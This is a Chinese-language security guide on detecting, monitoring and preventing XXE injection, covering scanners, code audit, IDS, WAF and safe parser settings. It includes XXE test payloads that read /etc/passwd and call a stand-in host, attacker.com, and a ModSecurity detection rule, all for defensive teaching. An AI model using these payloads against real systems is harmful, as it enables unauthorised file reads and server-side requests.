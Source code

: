 ### XXE外部实体注入的检测与监控

XXE（XML External Entity）外部实体注入是一种常见的Web安全漏洞，攻击者通过利用XML解析器的外部实体处理功能，可以读取服务器上的敏感文件、执行远程请求或发起拒绝服务攻击。为了有效防范XXE攻击，检测和监控XXE外部实体注入至关重要。以下是关于XXE外部实体注入检测与监控的详细方法和工具介绍。

---

#### 一、XXE外部实体注入的检测方法

1. **手动检测**
   - **输入点分析**：检查应用程序中所有处理XML数据的输入点，例如API请求、文件上传、表单提交等。重点关注那些接收XML格式数据的接口。
   - **测试外部实体解析**：在XML输入中插入外部实体声明，观察服务器响应。例如：
     ```xml
     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
     <test>&xxe;</test>
     ```
     如果服务器返回了`/etc/passwd`文件的内容，说明存在XXE漏洞。
   - **测试远程请求**：尝试通过外部实体发起远程请求，例如：
     ```xml
     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com"> ]>
     <test>&xxe;</test>
     ```
     如果服务器发起了对`http://attacker.com`的请求，说明存在XXE漏洞。

2. **自动化工具检测**
   - **Burp Suite**：Burp Suite是一款常用的Web安全测试工具，其Scanner模块可以自动检测XXE漏洞。通过配置Burp Suite的扫描策略，可以快速识别应用程序中的XXE漏洞。
   - **OWASP ZAP**：OWASP ZAP是一款开源Web应用安全扫描器，支持自动化检测XXE漏洞。通过配置ZAP的扫描规则，可以高效地发现XXE问题。
   - **XXEinjector**：XXEinjector是一款专门用于检测XXE漏洞的工具，支持多种攻击场景，包括文件读取、远程请求和盲注检测。它可以通过命令行快速测试目标应用。
   - **Acunetix**：Acunetix是一款商业Web漏洞扫描器，支持自动化检测XXE漏洞。其扫描引擎可以深度分析XML数据处理逻辑，发现潜在的XXE问题。

3. **代码审计**
   - **检查XML解析器配置**：在代码中查找XML解析器的使用，确保禁用了外部实体解析功能。例如，在Java中，可以通过以下方式禁用外部实体：
     ```java
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
     dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
     ```
   - **检查输入验证**：确保所有XML输入都经过严格的验证和过滤，避免恶意实体注入。

---

#### 二、XXE外部实体注入的监控方法

1. **日志监控**
   - **记录异常请求**：在服务器日志中记录所有包含外部实体的XML请求，分析这些请求的来源和内容，及时发现潜在的XXE攻击。
   - **监控文件访问**：通过监控服务器文件系统的访问日志，检测是否有异常的文件读取行为，例如访问`/etc/passwd`或其他敏感文件。

2. **入侵检测系统（IDS）**
   - **配置规则检测XXE攻击**：在IDS中配置规则，检测包含外部实体的XML请求。例如，Snort或Suricata可以通过自定义规则识别XXE攻击。
   - **监控网络流量**：通过分析网络流量，检测是否有异常的XML数据包或远程请求，及时发现XXE攻击。

3. **Web应用防火墙（WAF）**
   - **配置WAF规则**：在WAF中配置规则，拦截包含外部实体的XML请求。例如，ModSecurity可以通过以下规则检测XXE攻击：
     ```apache
     SecRule REQUEST_BODY "@contains <!ENTITY" "id:1001,severity:2,msg:'XXE Attack Detected'"
     ```
   - **实时阻断攻击**：通过WAF实时监控和阻断XXE攻击，保护Web应用的安全。

4. **运行时监控**
   - **使用RASP技术**：运行时应用自我保护（RASP）技术可以在应用程序运行时检测和阻断XXE攻击。例如，Contrast Security或Imperva RASP可以实时监控XML解析行为，发现并阻止XXE漏洞利用。

---

#### 三、XXE外部实体注入的防御措施

1. **禁用外部实体解析**
   - 在XML解析器中禁用外部实体解析功能，例如：
     - Java：`setFeature("http://xml.org/sax/features/external-general-entities", false)`
     - Python：`defusedxml`库
     - .NET：`XmlReaderSettings.ProhibitDtd = true`

2. **使用安全的XML库**
   - 使用经过安全加固的XML库，例如`defusedxml`（Python）或`OWASP XML Security`（Java），这些库默认禁用外部实体解析。

3. **输入验证和过滤**
   - 对所有XML输入进行严格的验证和过滤，确保输入数据符合预期格式，避免恶意实体注入。

4. **定期安全测试**
   - 定期对应用程序进行安全测试，包括手动测试和自动化扫描，及时发现和修复XXE漏洞。

---

#### 四、总结

XXE外部实体注入是一种严重的Web安全漏洞，可能导致敏感信息泄露或服务器被控制。通过手动检测、自动化工具扫描、代码审计以及日志监控、IDS、WAF和RASP等技术，可以有效检测和监控XXE攻击。同时，禁用外部实体解析、使用安全的XML库和加强输入验证是防范XXE漏洞的关键措施。只有综合运用检测、监控和防御手段，才能确保Web应用的安全性。

---

*文档生成时间: 2025-03-11 13:10:25*























